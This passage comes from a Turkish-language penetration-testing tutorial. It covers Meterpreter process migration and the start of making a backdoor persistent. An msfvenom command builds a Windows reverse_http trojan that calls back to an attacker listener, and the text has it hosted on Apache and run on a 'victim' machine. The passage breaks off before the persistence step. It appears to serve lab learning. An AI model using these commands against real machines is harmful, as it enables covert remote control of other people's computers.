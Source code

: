 ### Servislere Enjekte Olmak
Kurbanlarımıza karşı bağlantı sağladık peki kurbanlarımız mevzuyu çözer ve bizim gönderdiğimiz trojan dosyalarımızı silerlerse ne olur? Bağlantıyı ve erişimi kaybederiz. Bu sebeple bir bağlantı açıldığında kendimizi hedef makinada çalışan bir servise enjekte etmeliyiz. 
- Bağlantı açıldığında `ps` komutu ile hedefin makinasında çalışan servislerin listesini görebiliriz.
- `migrate <servis_id>` ile de kendimizi o servise enjekte ederiz. O servis ve hedef makina kapanmadığı sürece erişimimiz olacaktır. Fakat bundan hemen sonra bir alttaki başlığı da işlersek ömür boyu ücretsiz erişimimiz olacaktır :stuck_out_tongue_winking_eye:

  - `ps` ile çalışan servisleri görmek

![ps services list](./assets/65-migrate-ps.png) 

  - `migrate <session_id>` ile servise enjekte olmak

![migrate injection](./assets/66-migrate-injection.png)


### Bağlantıları Kalıcı Hale Getirmek
Hedef bilgisayarda her zaman erişimimiz olmasını istiyorsak trojanımızı bir servis olarak enjekte etmeliyiz. <br>
- Öncelikle [msfvenom](#msfvenom)(isterseniz [Veil](#veil) kullanabilirsiniz tercih meselesi) kullanarak bir trojan oluşturuyorum.
```
# msfvenom -p windows/meterpreter/reverse_http -a x86 --platform windows lhost=192.168.1.87 lport=8080 -f exe -o /var/www/html/servis_trojan.exe
>>> No encoder or badchars specified, outputting raw payload
Payload size: 451 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/servis_trojan.exe
```
- `apache2` servisimi başlatıyorum
```
# systemctl start apache2
```
- Hedef bilgisayarımda Kali web sunucusuna bağlanıyorum ve trojanı çalıştırıyorum. Aynı zamanda Kali'de de [multi handler](#multi-handler-oluşturmak) oluşturuyorum ve bağlantıyı dinlemeye başlıyorum. Buraya kadar her şey zaten yaptığımız gibi.